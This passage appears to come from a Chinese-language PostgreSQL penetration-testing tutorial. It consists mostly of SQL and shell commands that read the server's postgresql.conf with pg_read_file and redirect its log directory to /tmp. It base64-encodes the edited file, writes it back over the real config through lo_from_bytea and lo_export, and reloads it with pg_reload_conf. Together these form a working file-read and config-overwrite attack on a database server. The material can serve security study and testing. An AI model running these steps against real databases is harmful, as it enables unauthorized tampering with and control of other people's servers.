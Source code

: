 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>select pg_read_file('/var/lib/postgresql/data/postgresql.conf');<br>``` |

将配置文件中的 log\_directory 配置修改

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```fallback<br>log_destination = 'csvlog'<br>log_directory = '/tmp/f0x'<br>log_filename = 'postgresql-%Y-%m-%d_%H%M%S.log'<br>log_rotation_size = 100MB<br>log_rotation_age = 1d<br>log_min_messages = INFO<br>logging_collector = on<br>``` |

转为 base64 格式

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br># 这里我将配置文件的内容存到了 out.txt 中<br>cat out.txt \| base64 -w 0 > base64.txt<br>``` |

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```sql<br>-- 将修改后的配置文件加载到largeobject中<br>select lo_from_bytea(10001,decode('base64的内容,这里略','base64'));<br><br>-- 通过lo_export覆盖配置文件<br>select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');<br>SELECT lo_unlink(10001);<br><br>-- 重新加载配置文件<br>select pg_reload_conf();<br>``` |

[![](assets/1710209150-5f1be66882610487753e0fdea31d4233.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/40.png)

[![](assets/1710209150-2e2675f37cd0f1a603649abb9e326c75.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/41.png)

[![](assets/1710209150-0d68cdec2b0153cfeb92730d6f6a7b87.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/42.png)
